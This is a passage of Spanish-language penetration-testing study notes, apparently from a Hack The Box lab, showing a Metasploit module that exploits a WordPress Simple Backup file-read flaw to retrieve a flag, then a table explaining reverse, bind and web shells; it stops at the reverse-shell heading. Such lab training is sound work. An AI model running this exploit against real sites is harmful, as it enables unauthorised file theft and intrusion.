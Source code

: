 Ejecutamos el exploit:

~~~
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > exploit

[+] File saved in: /root/.msf4/loot/20220321154255_default_188.166.148.4_simplebackup.tra_126641.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
~~~

Ahora solo tendriamos que ubicar la ruta `/root/.msf4/loot/` y abrir el archivo `20220321154255_default_188.166.148.4_simplebackup.tra_126641.txt`

~~~
cat /root/.msf4/loot/20220321154255_default_188.166.148.4_simplebackup.tra_126641.txt

HTB{my_f1r57_h4ck}
~~~
___

## **TIPOS DE SHELLS**

Una vez que comprometemos un sistema y explotamos una vulnerabilidad para ejecutar comandos en los hosts comprometidos de forma remota, generalmente necesitamos un método de comunicación con el sistema para no tener que seguir explotando la misma vulnerabilidad para ejecutar cada comando. Para enumerar el sistema o tomar más control sobre él o dentro de su red, necesitamos una conexión confiable que nos brinde acceso directo al shell del sistema, es decir, Bash o PowerShell, para que podamos investigar a fondo el sistema remoto para nuestro próximo movimiento. 

Una forma de conectarse a un sistema comprometido es a través de protocolos de red, como `SSH` para Linux o `WinRM` para Windows, lo que nos permitiría iniciar sesión de forma remota en el sistema comprometido. Sin embargo, a menos que obtengamos un conjunto funcional de credenciales de inicio de sesión, no podremos utilizar estos métodos sin ejecutar primero los comandos en el sistema remoto, para obtener acceso a estos servicios en primer lugar. 

El otro método para acceder a un host comprometido para el control y la ejecución remota de código es a través de shells.
Como se discutió anteriormente, hay tres tipos principales de shells: Reverse Shell, Bind Shell y Web Shell. Cada uno de estos proyectiles tiene un método diferente de comunicación con nosotros para aceptar y ejecutar nuestros comandos. 

| Tipo de Shell | Metodo de comunicacion |
| -- | -- |
| Reverse Shell |Se conecta de nuevo a nuestro sistema y nos da el control a través de una conexión inversa. |
| Bind Shell | Espera a que nos conectemos a ella y nos da control una vez que lo hacemos |
| Web Shell | Se comunica a través de un servidor web, acepta nuestros comandos a través de parámetros HTTP, los ejecuta e imprime la salida. | 

Profundicemos más en cada uno de las shells anteriores y analicemos ejemplos de cada uno. 
___

### REVERSE SHELL
